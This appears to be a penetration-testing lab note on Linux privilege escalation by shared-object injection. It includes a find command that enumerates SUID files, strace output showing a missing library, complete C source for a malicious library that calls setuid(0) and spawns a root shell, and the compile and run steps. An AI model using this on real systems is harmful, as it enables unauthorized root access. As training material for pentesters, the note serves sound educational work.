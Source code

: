 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

When a program is executed, it will try to load the shared objects it requires.

By using a program called strace , we can track these system calls and determine whether any shared objects were not found.

If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.

1. Find SUID/SGID files on the target:

```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

==-rwsr-sr-x 1 root staff 9861 May 14 2017 /usr/local/bin/suid-so==

The suid-so file should execute with root user permissions.

2. Run strace on the SUID file:
```bash - target
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

access("/etc/suid-debug", F_OK) = -1 ENOENT (No such file or directory)
==open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)==

The libcalc.so shared object could not be found, and the program is looking in our user’s home directory, which we can write to.

3. Create the /home/user/.config directory.

4. Create the file libcalc.c with the following contents:

==libcalc.c==

---

```c - target
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
 setuid(0);
 system("/bin/bash -p");
 # system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```


---

5. Compile libcalc.c into /home/user/.config/libcalc.so:

```bash - target
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```

6. Run the SUID executable to get a root shell:

```bash - target
/usr/local/bin/suid-so
```

Calculating something, please wait…

```bash - target
id
```

>uid=0(root) gid=1000(user) egid=50(staff) groups=0(root) ...